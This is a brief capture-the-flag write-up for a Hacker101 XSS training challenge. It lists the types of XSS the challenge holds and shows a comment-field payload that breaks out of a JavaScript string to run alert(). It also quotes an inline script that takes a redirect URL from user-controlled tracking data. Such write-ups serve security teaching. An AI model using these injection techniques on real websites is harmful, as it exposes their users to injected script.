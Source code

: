 # XSS Playground by Zseano 

https://ctf.hacker101.com/ctf/start/36

Can you find all of the XSS on this page? Use a keen eye and see if you can dsiver the following types of XSS

- 5 reflected
- 3 Stored
- 2 DOM Based
- 1 CSP Bypass
- 1 leak something

So let's see where we get one by one, including dead ends

### Comment XSS

Addng a comment to the page sets some DOM based javascript to the content

```html
<script>
    var commentContent = 'comment';
</script>
```

Therefore we can set the comment text to something like 

```x'; alert('comment');//```

Which gives 

```html
<script>
    var commentContent = 'x'; alert('comment');//';
</script>
```

### Searchterm modal XSS in redirecUrl link

This inline script is interesting

```html
  <script>

  var search = tracking.searchterm;
  var redirect = tracking.redirectUrl;
  if (search == null) { 
  } else {
    document.getElementById("searchterm").click();
    if (redirect == null) { 
      document.getElementById("redirectUrl").href="index.php";
    } else {
      document.getElementById("redirectUrl").href=redirect;
    }
  }

  </script>
```
